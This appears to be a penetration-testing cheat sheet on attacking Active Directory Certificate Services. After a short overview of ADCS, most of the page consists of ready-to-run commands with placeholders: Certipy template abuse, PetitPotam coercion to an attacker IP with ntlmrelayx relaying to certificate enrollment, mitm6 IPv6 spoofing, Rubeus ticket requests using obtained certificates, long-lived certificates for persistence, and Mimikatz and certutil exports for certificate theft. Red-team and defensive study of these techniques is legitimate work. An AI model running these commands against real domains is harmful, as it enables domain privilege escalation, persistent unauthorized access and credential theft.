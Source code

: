 ```yaml
---
layout: blank
pagetitle: Attacking Active Directory Certificate Services
---
```



### What is ADCS

**Overview of ADCS**
- ADCS implements Public Key Infrastructure (PKI) in Windows domains, providing certificates for secure communication, user authentication, and more.
- It integrates tightly with Active Directory, enabling automated certificate issuance and renewal.
- Common uses include:
    - Smart card logon
    - Encrypting File System (EFS)
    - Wi-Fi and VPN authentication

**Key Components**
- Certificate Authority (CA): Issues, revokes, and manages certificates.
- Enrollment Services: Allows users and computers to request certificates via interfaces like the Certificate Enrollment Web Service (CES).
- Certificate Templates: Define certificate properties, validity periods, and permissions.

#### Enumeration
The first step in attacking ADCS is understanding the configuration of the CA, its templates, and associated permissions. Enumerating these components reveals potential misconfigurations that can be exploited.

- **Certipy** - Python tool for ADCS enumeration:
```
certipy find -u {username} -p {password} -dc-ip {dc_IP} -text -stdout
```
    - Look for `[!] Vulnerabilities` in templates and certificates
- **ldapsearch** - Query AD objects for ADCS-related information:
```
ldapsearch -x -h {DC_IP} -b "CN=Configuration,DC=domain,DC=com" "(objectClass=pKIEnrollmentService)"
```
- **Certutil** - View available certificate templates:
```
certutil -template
```

#### Common Vulnerabilities
ADCS often suffers from misconfigurations or insecure defaults that attackers can exploit. Here are the primary vulnerabilities:

- **Misconfigured Certificate Templates**:
    - Templates allowing _Authenticated Users_ to enroll enable low-privilege users to request certificates for accounts with higher privileges.
    - Certificate request agent rights can be abused to impersonate other users.
- **NTLM Relay Attacks**:
    - ADCS web enrollment services often lack Extended Protection for Authentication (EPA), making them vulnerable to NTLM relaying.
- **Vulnerable DACLs**:
    - Improper permissions on CA objects can allow attackers to modify or issue unauthorized certificates.
Insecure configurations allow attackers to escalate privileges by obtaining certificates for sensitive accounts or performing man-in-the-middle attacks.

#### Attack Techniques

**Exploitation of Misconfigured Certificate Templates**
Certificate templates define which users can request specific types of certificates. When a template is misconfigured to allow enrollment by "Authenticated Users," any domain user can request a certificate that provides elevated privileges. This is a common misstep in ADCS deployments.

- Find templates and identify misconfigurations:
```
certipy find -u {username} -p {password} -d {domain}
```
- Request a certificate from a vulnerable template:
```
certipy request -u {username} -p {password} -d {domain} -template {template_name}
```
- Authenticate using the obtained certificate:
```
Rubeus.exe asktgt /user:{username} /certificate:{path_to_cert} /password:{password}
```

**NTLM Relay with PetitPotam**
The PetitPotam attack coerces a target server to authenticate to an attacker-controlled machine via NTLM. When relayed to the ADCS web enrollment service, this can be used to request certificates that allow domain escalation.
- Trigger authentication via PetitPotam:
```
PetitPotam.py {target_DC_IP} {attacker_IP}
```
- Relay NTLM to ADCS:
```
ntlmrelayx.py -t http://{ADCS_IP}/certsrv/certfnsh.asp
```
- Extract and use the resulting certificate to impersonate privileged users.

**Machine-in-the-Middle with mitm6**
ADCS systems are often vulnerable to IPv6 spoofing attacks. Tools like mitm6 allow attackers to intercept NTLM traffic, relaying it to request certificates for privilege escalation.
- Launch IPv6 spoofing:
```
mitm6 -d {domain}
```
- Relay NTLM to ADCS:
```
ntlmrelayx.py -6 -t ldap://{DC_IP} --adcs
```

**Persistence with Certificates**

Certificates are an excellent mechanism for persistence because they allow authentication without passwords. By requesting a long-lived certificate, attackers can maintain access even if the compromised user’s password is changed.

- Request a certificate with extended validity:
```
certipy request -u {username} -p {password} -d {domain} -template {template_name} -validity {days}
```
- Export the certificate for reuse:
```
certutil -exportPFX -p {password} -cert {cert_name} {output_path}
```
- Authenticate using the certificate:
```
Rubeus.exe asktgt /user:{username} /certificate:{path_to_cert}
```

**Certificate Theft**
Attackers can extract private keys and certificates from systems to impersonate users or maintain persistence.
- Dump private keys using Mimikatz:
```
crypto::capi
```
- Export certificates with private keys:
```
certutil -exportPFX -user -p {password} my {output_file}
```

Stolen certificates can be used in attacks such as pass-the-certificate to impersonate users or maintain access to systems.